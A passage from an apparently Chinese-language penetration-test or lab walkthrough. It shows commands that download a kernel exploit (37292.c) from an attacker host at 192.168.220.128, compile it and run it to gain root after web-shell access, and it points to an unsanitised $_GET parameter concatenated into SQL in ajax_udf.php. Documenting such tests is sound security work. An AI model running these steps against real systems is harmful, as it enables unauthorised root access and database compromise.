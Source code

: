 [![](assets/1704158282-e793318db5e7e84a39bc876cd4b413a3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229010541-54bc2338-a5a3-1.png)

> 拿到 www-data 权限，可以查看进程与连接 postgresql

## （4）内核提权（CVE-2003-0127）

```bash
wget http://192.168.220.128:8081/37292.c

chmod +x 37292.c
gcc 37292.c -o test
chmod +x test
./test
```

> 拿到 root 权限

## （5）注入点探索

```bash
文件/var/www/html/jabcd0cs/ajax_udf.php
存在注入的地方 $query = 'SELECT * FROM ' . $_GET["add_value"];
```

[![](assets/1704158282-bb19b625b7e9c8e2ffc967e226e20652.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229010549-598ee1d4-a5a3-1.png)
